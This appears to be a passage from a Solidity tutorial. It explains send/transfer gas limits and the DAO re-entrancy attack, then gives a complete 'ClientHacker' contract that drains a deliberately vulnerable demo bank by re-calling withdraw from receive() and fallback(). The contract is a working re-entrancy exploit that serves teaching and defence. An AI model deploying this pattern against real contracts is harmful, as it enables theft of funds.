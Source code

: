 `send()` and `transfer()` both only forward `2300 gas`. This is just enough gas to process the receipt of ether to the client, updating it's `balance`. Executing any additional code in the `receive()` or `fallback()` function causes the transaction to run out of gas and revert.

Find the counter client on the [frontend](https://bank-client-hacker.surge.sh/), deposit some ether, and withdraw it by each method. `Withdraw_via_send()` and `Withdraw_via_tranfer()` should revert.

## Final Boss Battle: A malicious client contract

A bank is a honeypot for a hacker. All that ether, just sitting there in the contract balance, sitting there for someone crafty enough to snatch it.

The engineer deploying the bank contract was not schooled in the history of Ethereum, namely the infamous [DAO hack](https://www.coindesk.com/markets/2016/06/25/understanding-the-dao-attack/). The DAO hack was due to a "re-entrancy" attack, in which the attacker receives ether from a contract, and then re-calls the contract method in its `receive()` or `fallback()` functions. The new method call gets added to the EVM stack and is executed with priority over prior calls.

Our bank contract only updates client `balances` after sending ether, this makes it vulnerable to a reentrant attack. A hacker can deposit ether into the bank, and then withdraw it. The bank sends the hacker his ether. Before the `balances` are updated, the hacker makes another withdraw. The call still passes our `require(balances[msg.sender] >= amount)` check because `balances` have not been updated yet; as far as the bank is concerned, it still owes the hacker their ether. The bank sends more ether.

This process continues, much like a recursive algorithm, until the bank balance is drained.

```
contract ClientHacker {

  Bank bank;
  bool public hack;

  constructor(address bank_addr) public payable {
    bank = Bank(bank_addr);
    hack = false;
  }
  function set_hack() public payable {
    if (hack == false) { hack = true; }
    else if (hack == true) { hack = false; }
  }
  function deposit(uint amount) public payable {
    bank.deposit{value: amount}();
  }
  function withdraw_via_transfer(uint amount) public payable {
    bank.withdraw_via_transfer(amount);
  }
  function withdraw_via_send(uint amount) public payable {
    bank.withdraw_via_send(amount);
  }
  function withdraw_via_call(uint amount) public payable {
    bank.withdraw_via_call(amount);
  }
  receive() external payable {
    if (hack == true && address(bank).balance != 0 ) {
      bank.withdraw_via_call(msg.value);
    }
  }
  fallback() external payable {
    if (hack == true) {
      bank.withdraw_via_call(msg.value);
    }
  }
}
```
